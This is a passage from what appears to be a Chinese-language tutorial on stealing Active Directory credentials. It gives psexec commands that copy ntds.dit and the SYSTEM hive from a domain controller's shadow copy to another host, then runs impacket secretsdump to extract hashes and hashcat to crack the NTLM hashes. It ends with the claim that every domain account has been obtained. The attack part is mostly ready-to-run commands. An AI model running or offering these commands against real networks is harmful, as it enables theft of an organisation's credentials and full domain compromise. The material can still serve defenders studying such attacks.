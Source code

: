   

**4.复制卷影副本到本地**

  

①将ntds文件拷贝到本地服务器

```
psexec \\192.168.1.11 -u "safe-duck\administrator" -p "123456" -h cmd /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit \\192.168.1.201\c$\test\"
```

②将system文件拷贝到本地服务器

```
psexec \\192.168.1.11 -u "safe-duck\administrator" -p "123456" -h cmd /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system \\192.168.1.201\c$\test\"
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

5.将拷贝的卷影副本文件放进kali，使用工具读取ntds文件hash内容。获取到域内所用的账户信息

```
`git clone https://github.com/SecureAuthCorp/impacket``./secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit -user-status loca`
```

  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

**6.然后使用hashcat暴力破解**

```
`hashcat -m 1000 a.hash -a 0 pass.txt --force --remove win2.hash``-m 1000 #破解密码类型为NTLM``-a 0 #采用字典破解``-o  #将破解后的结果输出到pass1.txt``--remove win2.hash #表示将移除破解成功的hash`
```

```
  

```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

最后得到域内所有账号信息。完工

  

  

  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
